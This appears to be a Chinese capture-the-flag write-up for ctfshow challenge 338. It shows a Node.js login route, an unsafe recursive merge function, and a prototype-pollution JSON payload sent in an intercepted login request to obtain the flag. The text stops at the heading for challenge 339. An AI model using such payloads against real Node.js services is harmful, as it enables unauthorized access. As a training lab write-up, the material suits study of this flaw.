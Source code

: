 

## 338 原型链污染

> 下载源码：
>
> routes/login.js
>
> ```js
> var flag='flag_here';
> var secert = {};
> var sess = req.session;
> let user = {};
> utils.copy(user,req.body);
> if(secert.ctfshow==='36dboy'){
>  res.end(flag);
> }
> ```
>
> utils/common.js
>
> ```js
> function copy(object1, object2){
>  for (let key in object2) {
>      if (key in object2 && key in object1) {
>          copy(object1[key], object2[key])
>      } else {
>          object1[key] = object2[key]
>      }
>  }
> }
> ```
>
> 只需secert的ctfshow属性=36dboy即可获得flag
> 再看跟踪到copy方法，可以利用原型链污染

![](https://i.loli.net/2021/09/07/qEbjuS4e3rYRZBd.png)

此处`secert`为数组，而`copy`方法的操作对象也是数组，那么利用`post`请求将`req.body`传入参数，再利用`user`污染数组原型，则当`secert`找不到`ctfshow`属性时就会往原型找，从而使得判断条件为真

payload：

```json
{"__proto__":{"ctfshow":"36dboy"}}
```

抓包，点击登录，然后将帐号密码的数据改为payload传入即可
![](https://i.loli.net/2021/09/08/dsagS63pNKHkUXE.png)



## 339 原型链污染+
